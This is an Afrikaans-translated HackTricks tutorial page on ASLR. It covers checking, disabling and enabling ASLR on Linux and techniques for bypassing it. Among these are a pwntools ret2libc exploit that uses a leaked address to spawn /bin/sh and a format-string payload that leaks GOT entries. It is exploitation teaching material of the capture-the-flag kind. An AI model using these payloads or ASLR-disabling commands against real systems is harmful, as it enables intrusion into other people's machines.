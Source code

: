 # ASLR

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteitstegniek wat in bedryfstelsels gebruik word om die **geheue-adresse te randomiseer** wat deur stelsel- en toepassingsprosesse gebruik word. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data te voorspel, soos die stok, hoop en biblioteke, en dit verminder sekere tipes aanvalle, veral buffer-oorvloeiings.

### **ASLR-status Kontroleer**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space`-lêer lees. Die waarde wat in hierdie lêer gestoor word, bepaal die tipe ASLR wat toegepas word:

* **0**: Geen randomisering. Alles is staties.
* **1**: Konservatiewe randomisering. Gedeelde biblioteke, stok, mmap(), VDSO-bladsy word gerandomiseer.
* **2**: Volledige randomisering. Bo en behalwe elemente wat deur konservatiewe randomisering gerandomiseer word, word geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status kontroleer met die volgende bevel:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktivering van ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` in op **0**. Die deaktivering van ASLR word gewoonlik nie aanbeveel buite toets- of foutopsporingscenarios nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Jy kan ook ASLR uitskakel vir 'n uitvoering met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiveer**, kan jy 'n waarde van **2** skryf na die `/proc/sys/kernel/randomize_va_space` lêer. Dit vereis gewoonlik root-voorregte. Volledige randomisering kan gedoen word met die volgende bevel:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding oor Herlaai**

Veranderinge wat met die `echo` bevele gemaak word, is tydelik en sal herstel word met herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of wysig:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die wysiging van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
Dit sal verseker dat jou ASLR-instellings behoue bly oor herlaai.

## **Oorwinnings**

### 32-bit brutaal krag

PaX verdeel die proses-adresruimte in **3 groepe**:

* **Kode en data** (geïnisialiseer en ongeïnisialiseer): `.text`, `.data`, en `.bss` —> **16 bits** van entropie in die `delta_exec` veranderlike. Hierdie veranderlike word lukraak geïnisialiseer met elke proses en by die aanvanklike adresse gevoeg.
* **Geheue** toegewys deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
* **Die stok** —> **24 bits**, verwys as `delta_stack`. Dit gebruik egter effektief **11 bits** (vanaf die 10de tot die 20ste byte insluitend), uitgelyn op **16 byte** —> Dit lei tot **524,288 moontlike werklike stokadresse**.

Die vorige data is vir 32-bit stelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die aanval suksesvol voltooi is.

#### Brutaal krag idees:

* As jy 'n groot genoeg oorloop het om 'n **groot NOP-glybaan voor die skelkode** te bevat, kan jy net adresse in die stok brutaal krag totdat die vloei **oor 'n deel van die NOP-glybaan spring**.
* 'n Ander opsie hiervoor in geval die oorloop nie so groot is nie en die aanval plaaslik uitgevoer kan word, is om die NOP-glybaan en skelkode in 'n omgewingsveranderlike by te voeg.
* As die aanval plaaslik is, kan jy die basisadres van libc brutaal krag om te probeer (nuttig vir 32-bit stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Indien jy 'n afgeleë bediener aanval, kan jy probeer om die adres van die `libc`-funksie `usleep` te **brute-force**, met 10 as argument. As die bediener op enige punt 10 sekondes langer neem om te reageer, het jy die adres van hierdie funksie gevind.

{% hint style="success" %}
Op 64-biet-stelsels is die entropie baie hoër en dit is nie moontlik nie.
{% endhint %}

### Plaaslike Inligting (`/proc/[pid]/stat`)

Die lêer **`/proc/[pid]/stat`** van 'n proses is altyd leesbaar vir almal en dit bevat interessante inligting soos:

* **startcode** & **endcode**: Adresse bokant en onder met die **TEKS** van die binêre
* **startstack**: Die adres van die begin van die **stapel**
* **start\_data** & **end\_data**: Adresse bokant en onder waar die **BSS** is
* **kstkesp** & **kstkeip**: Huidige **ESP** en **EIP**-adresse
* **arg\_start** & **arg\_end**: Adresse bokant en onder waar **opdragargumente** is.
* **env\_start** & **env\_end**: Adresse bokant en onder waar **omgewingsveranderlikes** is.

Daarom, as die aanvaller op dieselfde rekenaar as die binêre is wat uitgebuit word en hierdie binêre nie die oorloop van rou argumente verwag nie, maar van 'n ander **invoer wat gekonstrueer kan word na die lees van hierdie lêer**. Dit is moontlik vir 'n aanvaller om **sekere adresse uit hierdie lêer te kry en verskuiwings daarvan te konstrueer vir die uitbuiting**.

{% hint style="success" %}
Vir meer inligting oor hierdie lêer, kyk na [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) deur te soek vir `/proc/pid/stat`
{% endhint %}

### 'n Lek hê

* **Die uitdaging is om 'n lek te hê**

As jy 'n lek ontvang (maklike CTF-uitdagings), kan jy verskuiwings daaruit bereken (onder die aanname byvoorbeeld dat jy die presiese libc-weergawe ken wat in die stelsel wat jy uitbuit, gebruik word). Hierdie voorbeeld-uitbuiting is onttrek uit die [**voorbeeld van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk na daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Misbruik 'n buffer overflow dit sou moontlik wees om 'n **ret2plt** te misbruik om 'n adres van 'n funksie uit die libc te eksfiltreer. Kontroleer:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitêre lees via 'n formaatstrings kwesbaarheid het, is dit moontlik om die adres van 'n **libc funksie** uit die GOT te eksfiltreer. Die volgende [**voorbeeld is hier vandaan**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
### Ret2ret & Ret2pop

Probeer ASLR te omzeilen deur adressering binne die stapel te misbruik:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
